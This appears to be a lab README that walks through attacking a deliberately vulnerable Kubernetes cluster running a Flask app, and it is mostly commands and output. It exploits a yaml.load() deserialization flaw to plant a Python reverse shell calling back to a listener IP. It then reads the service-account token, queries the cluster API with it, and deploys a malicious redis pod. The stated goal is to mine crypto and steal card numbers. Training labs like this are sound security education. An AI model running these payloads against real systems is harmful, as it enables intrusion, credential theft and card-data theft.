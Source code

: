 ## Attacking a Kubernetes Cluster

### Start the Vulnerable K8s Cluster
1. Run `./setup_insecure_kube.sh` to start the vulnerable K8s Cluster. Wait for the command to be done
2. Run `./setup_flask_stack.sh` to start the flask stack to be run on the cluster. Wait for the command to complete

### Verifying that the K8s stack is running
1. Run `kubectl get pods` should give you something like this:

    ```
        NAME            READY     STATUS    RESTARTS   AGE
        ngflask-redis   3/3       Running   0          1m
    ```

Make sure the `Status` is `Running`

2. Run `kubectl get svc` to check for running services. You should see:

    ```
    NAME                    TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
    kubernetes              ClusterIP   10.96.0.1        <none>        443/TCP        15m
    ngflask-redis-service   NodePort    10.105.196.230   <none>        80:30070/TCP   1m

    ```

    Your `ngflask-redis-service` Cluster IP and Ports may vary based on your machine

3. Finally run `minikube service ngflask-redis-service --url` to get a full URL of the final service. Open your browser and paste this value.

It will be something like this `http://<IP>:<someport>`

Once you open in your browser, you must see this response: `Please POST JSON requests to this URL`. This means the service running correctly.

### Generating Artifacts
1. In a separate terminal or browser make an HTTP GET request to `http://<IP>:<someport>/generate`
It should come back with this response:
    ```
    {
        "success": "10 transactions generated successfully"
    }
    ```

Now, if you go to the `/status` url, you should see the latest transaction that has been logged by our app.

```
Latest Transaction Status
amount: 482
name: Samuel Chandler
card: ********8854
expiration: 425
Status: Success
```

#### Our objective is to compromise this cluster. Run our cryptominer and steal card numbers 😉

### Exploiting a Deserialization Flaw
* Our Flask app has a `yaml.load()` deserialization flaw. Using this flaw, one can potentially gain access to execute code on the backend-server. We will be using this vulnerability to exploit our app.
* Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.
* Run: `cd payloads`
* Run: (to upload the yaml file and identify the flaw)

```
http --form POST http://<IP>:<PORT>/upload file@test_payment.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:34:52 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```
* Now go to the `/status` url, and you should see this (dump of all the environment variables)

### Reverse TCP Shell on our K8s Cluster
* you should be in the payloads directory. Open `reverse_shell.yml` with `atom reverse_shell.yml`
* change the external IP address to your VM's IP address with ifconfig. Also make sure that port 1337 is available on your VM
    `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.2.3\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`
* open a separate terminal and start your netcat listener by running `nc -l 1337`
* Now run:

```
http --form POST http://<IP>:<PORT>/upload file@reverse_shell.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:43:59 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

You should have gotten a netcat reverse TCP shell!
```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #

```
Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the clear or Commd/Ctrl+C key. you will lose access to the shell**

### Pivoting to K8s cluster
* Navigate to `cd /run/secrets/kubernetes.io/serviceaccount` and run `ls -al`
* open and copy the token with `cat token` and copy to clipboard
* Now run: `export TOKEN=(paste token value here)`
* We are now going to masquerade with the cluster-admin's token.
* Let's start interacting with K8s API

    `curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
    
    `curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`

You should see a JSON Dump of all the pods and services running in the cluster at this time

Note `clusterIP` of the `redis-service` Service.

Open a new tab in terminal and launch a web-server by running `./tornado_server.py`

Change the value of `MASTERHOST` with the value of `clusterIP`.

Change the value of `LISTENER_IP` with the VM IP that can be fetched by running `ifconfig`

Change the value of `LISTENER_PORT` to the port web-server is running on(`9090`)

```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "10.109.162.114"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "192.168.2.116"
              },
              {
                "name": "LISTENER_PORT",
                "value": "3999"
              }
            ]
        }]
    }
}
EOF
```

`curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure`

`curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
